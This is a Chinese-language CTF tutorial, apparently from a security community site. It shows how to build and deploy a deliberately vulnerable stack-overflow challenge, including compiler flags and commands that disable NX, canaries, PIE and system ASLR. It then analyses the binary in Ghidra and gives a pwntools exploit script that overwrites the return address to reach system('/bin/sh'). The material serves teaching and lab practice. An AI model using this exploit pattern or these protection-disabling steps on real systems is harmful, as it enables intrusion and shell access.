


# 「PWN 系列」一、开篇 自己写题自己做 - 先知社区

「PWN 系列」一、开篇 自己写题自己做

- - -

> 写一道基础的栈溢出 PWN 题，打开二进制安全的门缝

# 如何部署一套题

## 保护关闭

第一步，准备一道 pwn 题的源码

示例.c

```plain
#include<stdio.h>
int main()
{
        int a=1;
        float key=2018.81,input;
        if (a==2)
        {
                printf("input your key:\n");
                scanf("%f",&input);
                if(input==key)
                        printf("mctf{Hahahahaha_Y0u_C@n_use_GDB_N0W}");
        }
        return 0;
}
```

第二步就是 gcc 编译了，因为还要牵扯到很多的开关，所以这里一步步来 1、【关闭】EP/NX（堆栈不可执行）

```plain
gcc  -z execstack -o 编译完的文件名 待编译的文件名
```

2、【关掉】Stack Protector/Canary（栈保护）

```plain
gcc -fno-stack-protector -o 编译完的文件名 待编译的文件名
```

3、【关掉】程序 ASLR/PIE（程序随机化保护）

```plain
gcc -no-pie 编译完的文件名 待编译的文件名
```

4、【关闭】整个 linux 系统的 ASLR 保护

```plain
sudo -s 
echo 0 > /proc/sys/kernel/randomize_va_space
exit
```

5.「打开」整个 linux 系统的 ASLR 保护

```plain
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
```

6.64 位 linux 下面的 GCC 编译出一个 32 位可执行程序

```plain
gcc -m32 -z execstack -fno-stack-protector -o 编译完的文件名 待编译的文件名
```

## socat 工具部署题目

第三步，我们在做题目的时候经常碰到的就是将题目作为一个服务绑定在一个服务器的一个端口上，所以接下来可以用 socat

```plain
socat tcp-l:端口号，fork exec:程序位置，reuseaddr
```

最后一步就是访问题目了

```plain
nc IP 地址 端口号
```

# 栈溢出基础实战示例

程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。

发生的前提条件

-   程序必须向栈上写入数据
    
-   写入的数据大小没有被良好地控制
    

## 源代码：main.c

```plain
#include <stdio.h>
#include <string.h>

int func(){
    system("/bin/sh");
    return 0;
}
void vulnerable() {
  char s[12];
  puts("请输入：");
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

> GPT
> 
> 这段代码存在严重的安全问题，主要是因为使用了不安全的 `gets` 函数，容易导致缓冲区溢出。具体问题如下：
> 
> 1.  使用 gets 函数： `gets` 函数没有提供缓冲区边界检查，因此可能导致缓冲区溢出，允许攻击者覆盖栈上的关键数据。
> 2.  栈溢出风险：函数 `vulnerable` 中的字符数组 `s` 只有 12 个字节，但用户输入没有受到限制。这可能允许攻击者输入超过 12 个字节的数据，导致栈溢出。
> 3.  system 函数调用：函数 `func` 中使用 `system` 函数执行用户输入的命令，这可能导致命令注入攻击，尤其是由于缺乏输入验证。
> 
> 为了解决这些问题，应该使用安全的输入函数替代 `gets`，例如 `fgets`，并确保对用户输入进行适当的验证和边界检查。此外，对于执行用户输入的命令，应该谨慎处理，避免命令注入漏洞。

我们所要达成的目的是让程序执行 func 函数

首先关闭 ASLR

`echo 0 > /proc/sys/kernel/randomize_va_space`

使用如下指令进行编译，编译 32 位不带 stack 保护和 pie 保护的二进制文件

`gcc -m32 -fno-stack-protector -no-pie main.c -o main`

得到一个`main`二进制文件，使用 checksec 进行分析

```plain
Arch:     i386-32-little
    // x86 架构下的 32 位小端程序
    RELRO:    Partial RELRO
    //
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 标题  | RELRO | STACK CANARY（堆栈保护） | NX（不可执行内存） | PIE |
| 示意  | RELRO 是可执行文件中一个常见的保护特性。它的全称是 Relocation Read-Only（重定位只读），它的作用是防止针对 GOT 表的攻击。  <br>  <br>RELRO 可以分为三种级别：  <br>  <br>\- Partial RELRO（部分 RELRO）：在 program 的初始化阶段，只有 GOT 表中未被初始化的部分被保护起来。如果一个地址被初始化后，那么它就成为了漏洞的可能入口。  <br>  <br>\- Full RELRO（完全 RELRO）：在 program 的初始化阶段，GOT 表所有项都被标记为只读。这样一来，攻击者就无法改变 GOT 表中的地址来实现攻击。  <br>  <br>\- Canary RELRO：这是 Full RELRO 的升级版，它还增加了内存区域的随机化，提高了安全性。 | 堆栈保护是一种通过检查函数返回地址是否被修改的技术。在执行函数时，函数返回地址会被压入栈中。堆栈保护插入了一个被称为“堆栈守卫”的随机值到返回地址之前，防止它被篡改。  <br>  <br>如果堆栈保护是开启的，Checksec 将会显示“Canary found”，否则就是“No canary found”。 | NX 是可执行文件中的一项重要安全特性，它通过将某些内存区域标记为不可执行来防止缓冲区溢出等攻击。  <br>  <br>如果 NX 是开启的，Checksec 将会显示“NX enabled”，否则就是“NX disabled”。 | PIE（Position Independent Executables）是在程序执行时将程序和依赖的库加载到内存中并且将其具体位位置放置在随机的内存地址中。这样，攻击者想要利用已知的内存位置来执行攻击时就很难了。  <br>  <br>PIE 是增加安全性的有力手段。如果开启了 PIE，Checksec 将会显示“PIE enabled”，否则就是“No PIE”。 |
| 例子  | Full RELRO | Canary found | NX enabled | PIE enabled |

## gdb 调试

> gdb 调试可看 b 站“国资社畜”的的 pwn 教学视频，讲得非常详细非常好。
> 
> 国资社畜 你想有多 PWN：[https://www.bilibili.com/video/BV1mr4y1Y7fW](https://www.bilibili.com/video/BV1mr4y1Y7fW)

blob:[https://li2h5rwaaaa.feishu.cn/4eab0d3d-efe3-4ee1-ae39-dc879183a462](https://li2h5rwaaaa.feishu.cn/4eab0d3d-efe3-4ee1-ae39-dc879183a462)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224000509-519c162e-d265-1.png)

## 静态分析

函数：vulnerable()

-   080484b9 83 ec 14 SUB ESP,0x14 //缓冲区的大小（EBP 到 ESP：0x14）
    
-   080484e0 e8 3b fe CALL <external>::gets //危险函数 char *gets(char* \_\_s)</external>
    

```plain
**************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined vulnerable()
             undefined         AL:1           <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     080484f8(R)  
             undefined1        Stack[-0x18]:1 local_18                                XREF[2]:     080484dc(*), 
                                                                                                   080484eb(*)  
                             vulnerable                                      XREF[4]:     Entry Point(*), main:08048518(c), 
                                                                                          080485f0, 080486a8(*)  
        080484b5 55              PUSH       EBP
        080484b6 89 e5           MOV        EBP,ESP
        080484b8 53              PUSH       EBX
        080484b9 83 ec 14        SUB        ESP,0x14 //缓冲区的大小（EBP 到 ESP：0x14）
        080484bc e8 ff fe        CALL       __x86.get_pc_thunk.bx                            undefined __x86.get_pc_thunk.bx()
                 ff ff
        080484c1 81 c3 3f        ADD        EBX,0x1b3f
                 1b 00 00
        080484c7 83 ec 0c        SUB        ESP,0xc
        080484ca 8d 83 b8        LEA        EAX,[EBX + 0xffffe5b8]=>DAT_080485b8             = E8h
                 e5 ff ff
        080484d0 50              PUSH       EAX=>DAT_080485b8                                = E8h
        080484d1 e8 5a fe        CALL       <EXTERNAL>::puts                                 int puts(char * __s)
                 ff ff
        080484d6 83 c4 10        ADD        ESP,0x10
        080484d9 83 ec 0c        SUB        ESP,0xc
        080484dc 8d 45 ec        LEA        EAX=>local_18,[EBP + -0x14]
        080484df 50              PUSH       EAX
        080484e0 e8 3b fe        CALL       <EXTERNAL>::gets    //危险函数                             char * gets(char * __s)
                 ff ff
        080484e5 83 c4 10        ADD        ESP,0x10
        080484e8 83 ec 0c        SUB        ESP,0xc
        080484eb 8d 45 ec        LEA        EAX=>local_18,[EBP + -0x14]
        080484ee 50              PUSH       EAX
        080484ef e8 3c fe        CALL       <EXTERNAL>::puts                                 int puts(char * __s)
                 ff ff
        080484f4 83 c4 10        ADD        ESP,0x10
        080484f7 90              NOP
        080484f8 8b 5d fc        MOV        EBX,dword ptr [EBP + local_8]
        080484fb c9              LEAVE
        080484fc c3              RET
```

main 二进制文件中`main`函数反编译结果：

> 直接调用了 vulnerable();和我们的源代码基本一致

主函数 main

```plain
/* WARNING: Function: __x86.get_pc_thunk.ax replaced with injection: get_pc_thunk_ax */

undefined4 main(void)

{
  vulnerable();
  return 0;
}
```

Ghidra 反编译`vulnerable`函数结果，以下为伪代码：

> 为什么在源代码中\[12\]而这里却是\[16\]?
> 
> 源代码中定义了一个大小为 12 的字符数组 `s`。然而，反编译的伪代码中，编译器可能进行了栈帧的调整和优化，将 `s` 的大小调整为 16 字节，这可能是为了实现更有效的栈内存布局或者对齐。

```plain
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void vulnerable(void)

{
  char local_18 [16];

  puts(&DAT_080485b8);
  gets(local_18);
  puts(local_18);
  return;
}
```

危险的 system("/bin/sh");

blob:[https://li2h5rwaaaa.feishu.cn/bfb57d35-44e2-4208-a839-f75ec30f55ad](https://li2h5rwaaaa.feishu.cn/bfb57d35-44e2-4208-a839-f75ec30f55ad)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224000549-6965ad4c-d265-1.png)

## exp.py

-   危险的 system("/bin/sh"); 0x08048486

```plain
# 64 位栈溢出模版
# ++++++++++++++++++++++++++++++++++++++++++
# +  微信公众号：攻有道       By:Cha111Ng1    +
# ++++++++++++++++++++++++++++++++++++++++++
# Github: https://github.com/Cha111Ng1/ghidra_scripts_cha11
from pwn import *

context(os='linux', arch="amd64", log_level="debug")
content = 0

# 计算出的填充字符，0x14：缓冲区大小，+4：因为是 32 位
payload = b'a' * (0x14+4)
# 想要其返回的函数地址，即前面填充 a 至函数返回地址时，把返回地址填充为我们指定的函数地址，这样在堆栈做 ret 操作时 eip 跳转到我们填充的地址
system_addr = 0x08048486

def main():
    if content  == 1:
        # 本地文件方式
        cha11 = process("./test_01_32")
    else:
        # 远程连接方式
        cha11 = remote('10.37.130.2', '1337')
    # 跳到恶意位置
    exp = payload + p32(system_addr)
    # 发送恶意载荷
    cha11.sendline(exp)
    # 获得一个交互 shell
    cha11.interactive()

main()
```

[](https://li2h5rwaaaa.feishu.cn/space/api/box/stream/download/asynccode/?code=OTA3YWZmYTI2NjNhM2VhZTBhMzNjOTVjNjgxYjIwOTdfMm5oZkFwaFJQbG01Uk9mRTFRSjRPN1lqc1lWNnNGemRfVG9rZW46UGowU2J6T1NDbzBmblh4WEhpR2NwM0d4bk9kXzE3MDg3MDQwODk6MTcwODcwNzY4OV9WNA)

至此，一道简单的 pwn 从写题到部署，再到寻找利用方式，最后到漏洞利用全部演示完毕

- - -

# 拓展资料

Pwn 入门之基础栈溢出：[https://zhuanlan.zhihu.com/p/587763752](https://zhuanlan.zhihu.com/p/587763752)

c 程序从编译开始到运行结束的过程：[https://blog.csdn.net/tbsqigongzi/article/details/128137047](https://blog.csdn.net/tbsqigongzi/article/details/128137047)

国资社畜 你想有多 PWN：[https://www.bilibili.com/video/BV1mr4y1Y7fW](https://www.bilibili.com/video/BV1mr4y1Y7fW)
